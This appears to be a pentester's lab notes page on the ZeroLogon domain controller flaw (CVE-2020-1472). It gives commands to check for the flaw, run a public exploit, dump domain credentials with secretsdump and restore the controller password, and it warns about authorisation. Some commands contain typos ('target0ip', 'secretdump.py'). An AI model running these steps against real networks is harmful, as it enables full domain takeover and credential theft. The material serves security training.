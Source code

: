 -- -
Dangerous exploit that could take the entire network down. The vector relies on attacking a #domaincontroller and changing the admin's logon to #null. This can easily break a number of systems, so it is not advised to actually run this against a production environment as you can then halt everything. So run for practice, but don't do it on a client environment unless they specifically ask you to, and you get it in writing so they can't sue you after.  
#### Check for vuln
The code includes the exploit, but it also has a checker that sees if the domain controller is vulnerable without actually exploiting anything:
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472
python zerologon_check.py <DC hostname> <dc ip>
python zerologon_check.py HYDRA-DC 10.0.2.16
```
#### Exploit
Remember to not fling this wildly, get client confirmation **in writing** if they want you to exploit it:
```bash
python cve-2020-1472.py <dc hostname> <dc ip>
python cve-2020-1472.py HYDRA-DC 10.0.2.16
```
#### Verify exploit
verify that the exploit ran successfully by dumping dc SAM using [[Dark Arts I/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]]
```bash
# It will still ask for a password, just hit enter and leave it empty
secretsdump.py -just-dc <domain>/<dc hostname>\$@<dc ip>
secretsdump.py -just-domain MARVEL\HYDRA-DC\$@10.0.2.16
```
#### Restore DC
After you verify the exploit, you will want to document the compromise then restore the DC as quickly as possible so that you hopefully don't destroy the domain.
```bash
# Take the administrator hash from the sam dump in the verify exploit step above
# use it to get the cleartext password 
secretdump.py administrator@<dc ip> -hashes <administrator hash>
secretsdump.py administrator@10.0.2.16 -hashes <administraotr hash>

# Then use that cleartext password to restore the password on the DC
# there is a clear hex value in the dump from the above command, copy it and use it as the '-hexpass' value below.
python restorepassword.py <domain>/<dc hostname>@<dc hostname> -target-ip <dc ip> -hexpass <hex password>
python restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target0ip 10.0.2.16 -hexpass <hex pass>
```
#### Resources
- [What Is ZeroLogon?](https://www.trendmicro.com/en_us/what-is/zerologon.html)
- [Exploit / vuln checker](https://github.com/dirkjanm/CVE-2020-1472)